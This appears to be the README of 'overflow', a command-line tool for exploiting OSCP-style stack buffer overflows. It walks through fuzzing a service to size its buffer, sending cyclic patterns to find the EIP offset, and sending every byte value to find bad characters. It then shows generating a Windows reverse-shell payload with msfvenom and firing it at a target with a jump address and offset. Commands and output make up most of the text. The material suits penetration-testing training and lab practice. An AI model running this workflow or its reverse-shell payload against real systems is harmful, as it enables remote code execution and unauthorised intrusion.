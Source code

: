 # Overflow
A command-line tool for exploiting OSCP-like buffer overflows.

## 1. Installation
```sh
$ git clone https://github.com/sradley/overflow.git
$ cd overflow
$ cabal update
$ cabal install
```

## 2. Usage
The help menu is pretty exhaustive, if you're stuck you should give it a look.

```sh
$ overflow --help
...
```
```sh
$ overflow <subcommand> --help
...
```

### 2.1. Fuzzing
You can use this tool to discover the length of the target buffer.

The fuzz subcommand will send increasingly long (size specified by the step
parameter) bytestrings comprised of As (0x41). When the server stops responding
the fuzzer assumes that it has reached a buffer overflow and reports the
possible length of the buffer.

```
$ overflow fuzz 127.0.0.1 4444 -S 100
    ───> Sending 100-byte payload to target...
    ───> Sending 200-byte payload to target...
    ───> Sending 300-byte payload to target...
    ───> Sending 400-byte payload to target...
    ───> Sending 500-byte payload to target...
Done! Length of buffer is in the range (400, 500].
```

### 2.2. Sending a Cyclic Pattern
You can use this tool to send a cyclic pattern of bytes to the server. Great
for discovering offsets of particular registers.

The pattern subcommand will generate and send a specified length cyclic pattern
of bytes to the target server, however, figuring out the offset to the EIP
register (for example) is up to you. 

```
$ overflow pattern 127.0.0.1 4444 -l 80
    ───> Sending 80-byte cyclic pattern to target.
Success! Finished sending pattern to target
```

```
$ nc -lvp 4444
Connection from 127.0.0.1:48870
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
```

### 2.3. Finding Bad Characters
You can use this tool to send every character from 0x00 to 0xFF to the target
service. It's only real use is to discover bad characters (e.g. characters that
the service treats differently in execution).

The badchars subcommand will generate and send a bytestring consisting of every
possible character to the target service. However, determining which characters
are bad is up to you.

```
$ overflow badchars 127.0.0.1 4444 -o 160
    ───> Sending characters to target.
Done! Finished sending characters to target.
```

You can also exclude particular characters from the payload sent to the target.
For example, say you wanted to exclude the characters '00', '05' and '1A'.

```
$ overflow badchars 127.0.0.1 4444 -o 160 -e "00,05,1a"
    ───> Sending characters to target.
Done! Finished sending characters to target.
```

### 2.4. Running an Exploit
Generate a RAW payload using msfvenom, for example.
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 \
    EXITFUNC=thread -b "\x00" --platform=Windows --arch=x86 -o payload.shell
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Saved as: payload.shell
```

Then send the payload using the exploit subcommand. Just add the hex for the
jump point (-j|--jump) and add the offset to the EIP register (-o|--offset),
and you're good to go.
```
$ overflow exploit 127.0.0.1 4444 -o 160 -j "5f4a358f" -p path/to/payload.shell
    ───> Sending exploit payload to target...
Done! Finished sending exploit to target.
```


